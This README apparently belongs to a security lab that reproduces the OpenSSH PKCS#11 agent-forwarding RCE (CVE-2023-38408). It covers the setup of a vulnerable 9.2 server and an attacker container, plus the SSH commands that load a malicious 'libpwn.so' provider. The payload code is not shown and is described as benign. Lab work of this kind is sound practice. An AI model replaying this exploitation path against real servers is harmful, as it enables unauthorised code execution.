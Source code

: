 # OpenSSH RCE Lab (CVE-2023-38408)

This lab reproduces the PKCS#11 exploitation path fixed in OpenSSH 9.3.  A
vulnerable OpenSSH 9.2 server is deployed alongside an attacker workstation that
builds a malicious PKCS#11 shared object for use with agent forwarding.

## Components

- **server** – Debian Bookworm container with OpenSSH 9.2 configured for verbose
  logging and agent forwarding.
- **attacker** – Builder environment that compiles `libpwn.so` demonstrating
  arbitrary code execution when loaded as a PKCS#11 provider.

## Usage

```bash
python ../../lab_manager.py prepare openssh-rce --dry-run   # inspect commands
python ../../lab_manager.py prepare openssh-rce              # build containers
```

After the attacker container starts it compiles `/payloads/libpwn.so` and waits.
From the attacker container (or host) run:

```bash
docker exec -it openssh-attacker bash
ssh lab@openssh-server-lab -p 22  # password lab123 to establish trust
ssh -F /dev/null \
  -o 'ForwardAgent=yes' \
  -o 'PKCS11Provider=/payloads/libpwn.so' \
  lab@openssh-server-lab -p 22
```

During the second SSH session the malicious library executes, writing to
`/payloads/pwned.txt` and printing a banner to stderr.  Inspect the file from the
host to verify exploitation.

Shut down the lab when complete:

```bash
python ../../lab_manager.py destroy openssh-rce
```

## Safety Notes

- The provided payload is benign and only writes to a shared volume.
- Use isolated networks; never expose the vulnerable server publicly.
